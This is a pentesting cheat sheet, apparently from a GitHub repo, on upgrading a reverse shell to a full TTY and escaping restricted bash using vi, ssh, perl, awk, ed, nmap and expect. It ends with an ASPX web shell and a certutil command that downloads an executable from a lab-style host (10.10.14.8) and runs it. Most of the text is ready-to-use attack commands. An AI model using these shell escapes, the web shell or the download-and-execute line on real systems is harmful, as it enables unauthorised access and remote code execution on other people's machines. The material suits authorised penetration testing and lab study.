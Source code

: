 # Spawn a shell

**Again this is thanks to @S1REN and her code. Buy a coffee or a beer for Cat Mama**

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
#Keyboard Shortcut: 
Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset ; stty raw -echo ; fg ; reset
stty columns 200 rows 200
#* Grab a valid tty.
#* What OS are you on? 
#Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD* 
#Want a color terminal to easily tell apart file permissions? 
#Directories? Files?
#* Fastest way to list out the files in a directory, show size, show permissions, human readable.
```

 - You need to do the command if python is available on the target system: `python -c 'import pty; pty.spawn("/bin/bash")'`
   - If python is not available run the command: `/usr/bin/script -qc /bin/bash /dev/null`
   - Then you can examine current terminal with `echo $TERM` which should give you `xterm-256color` or something like that.
   - Then `stty -a` should give you size of TTY="rows 38;column 116". **have that in mind the command looks strange and you can't see it sometimes**
   - Then you need to press **Ctrl+z=`^z`**
   - If you are jail breaking from Normal Terminal In Kali, run the command:
       `stty raw -echo; fg`
       In reverse shell: `reset` & `export SHELL=bash` & `export TERM=<xterm256-color>` `stty rows $ROWS cols $COLS`
   - If you are jail breaking from ZSH shell In Kali, run the command:
       `stty raw -echo; fg` In reverse shell: `stty rows $ROWS cols $COLS` & `export TERM=xterm-256color` & `exec /bin/bash`

**Is this rbash** (*Restricted Bash*)**?** PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

**Is this rbash** (*Restricted Bash*)**?** PT2
(*This requires ssh user-level access*)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(*Bash Shell*)

**Is python present on the target machine?**
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

**Is perl present on the target machine?**
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

**Is AWK present on the target machine?**
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

**Is ed present on the target machines?**
ed
!sh

**IRB Present on the target machine?**
exec "/bin/sh"

**Is Nmap present on the target machine?**
nmap --interactive
nmap> !sh

**Expect:**

```shell
expect -v  
    expect version 5.45.4  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash 
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh
```

**ASPX shell script**

```aspx
<%
Set rs = CreateObject("WScript.shell")
Set cmd = rs.Exec("cmd /c ping 10.10.14.19")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
Replace the command with this you can download a file and execute `Set cmd = rs.Exec("certutil -urlcache -split -f http://10.10.14.8/agent.exe c:\\users\\public\\agent.exe && cmd /c c:\users\public\agent.exe")`